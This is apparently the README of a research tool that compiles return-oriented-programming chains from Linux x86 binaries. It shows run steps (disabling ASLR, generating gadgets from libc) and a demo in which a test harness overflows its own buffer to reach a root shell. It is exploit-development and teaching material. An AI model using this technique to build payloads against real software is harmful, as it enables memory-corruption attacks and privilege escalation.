 # ROPChainGenerator

## Intro
Rop Chain compiler for Linux x86 based OS. Tested on the following kali image: http://cdimage.kali.org/kali-2016.2/kali-linux-2016.2-i386.iso

ropbuilder will take as input one (or more) binaries, scan their executable sections for useful gadgets, and then assemble the right ones into a functional ROP payload to give executable permissions to the stack and then executes second staged shellcode.

roptester is simple tool that will create a dummy process, load the executable(s) that contain the gadgets, load the ROP payload and a fixed second-stage shellcode, and execute it.

## DEMO LINK
http://showterm.io/64db6d73974eb215be946

## Instructions to run
```
# STEP 0.0: disable ASLR
vijay@kali:~/ropchain/src$ sudo bash -c "echo 0 > /proc/sys/kernel/randomize_va_space"

# STEP 0.1: install distrom (Kali already has distrom installed)
vijay@kali:~/ropchain/src$ pip install distrom3

# STEP 1: Make roptester.c
vijay@kali:~/ropchain/src$ make clean && make

# STEP 2: Run ropbuilder
vijay@kali:~/ropchain/src$ ./ropbuilder.py
Usage: ./ropbuilder.py <binary_file1> <binary_file2> ...

vijay@kali:~/ropchain/src$ ./ropbuilder.py /lib/i386-linux-gnu/libc-2.23.so
[*] Loading gadgets from /lib/i386-linux-gnu/libc-2.23.so
[-] INT 0x80 not found
[*] CALL GS:[0x10] found
[*] POP EAX found
[*] POP EBX found
[*] POP ECX found
[*] POP EDX found
[*] CALL ESP found
[*] Generating exploit.py file

# STEP 3: Now you should have exploit.py file created
# Run roptester with same number of arguments(in same order) as you gave to ropbuilder.py.
# Roptester will load the libraries dynamically and find the base addresses from proc filesystem
# and update the base address values in exploit.py and generates the final payload file called
# payload.out and runs it by overflowing buffer located in itself(roptester).

vijay@kali:~/ropchain/src$ ./roptester
Invalid arguments.
Usage: ./roptester <libfile1> <libfile2> <libfile3> ...

vijay@kali:~/ropchain/src$ ./roptester /lib/i386-linux-gnu/libc-2.23.so
[*] Loaded library: /lib/i386-linux-gnu/libc-2.23.so
[*] Rebasing offsets in exploit.py

[*] cat /proc/11610/maps
08048000-08049000 r-xp 00000000 08:06 1700       /home/vijay/ropchain/src/roptester
08049000-0804a000 rw-p 00000000 08:06 1700       /home/vijay/ropchain/src/roptester
0804a000-0806b000 rw-p 00000000 00:00 0          [heap]
b7dff000-b7e00000 rw-p 00000000 00:00 0
b7e00000-b7fad000 r-xp 00000000 08:06 656611     /lib/i386-linux-gnu/libc-2.23.so
b7fad000-b7faf000 r--p 001ac000 08:06 656611     /lib/i386-linux-gnu/libc-2.23.so
b7faf000-b7fb0000 rw-p 001ae000 08:06 656611     /lib/i386-linux-gnu/libc-2.23.so
b7fb0000-b7fb3000 rw-p 00000000 00:00 0
b7fb3000-b7fb6000 r-xp 00000000 08:06 656634     /lib/i386-linux-gnu/libdl-2.23.so
b7fb6000-b7fb7000 r--p 00002000 08:06 656634     /lib/i386-linux-gnu/libdl-2.23.so
b7fb7000-b7fb8000 rw-p 00003000 08:06 656634     /lib/i386-linux-gnu/libdl-2.23.so
b7fd4000-b7fd6000 rw-p 00000000 00:00 0
b7fd6000-b7fd9000 r--p 00000000 00:00 0          [vvar]
b7fd9000-b7fdb000 r-xp 00000000 00:00 0          [vdso]
b7fdb000-b7ffd000 r-xp 00000000 08:06 656583     /lib/i386-linux-gnu/ld-2.23.so
b7ffd000-b7ffe000 rw-p 00000000 00:00 0
b7ffe000-b7fff000 r--p 00022000 08:06 656583     /lib/i386-linux-gnu/ld-2.23.so
b7fff000-b8000000 rw-p 00023000 08:06 656583     /lib/i386-linux-gnu/ld-2.23.so
bffdf000-c0000000 rw-p 00000000 00:00 0          [stack]

[*] Rebased line: IMAGE_BASE_0 = 0xb7e00000 # /lib/i386-linux-gnu/libc-2.23.so
[*] Generating payload.out
[*] Launching paylod
[*]
bash-4.3#
bash-4.3# whoami
root
bash-4.3# exit
exit
vijay@kali:~/ropchain/src$
```

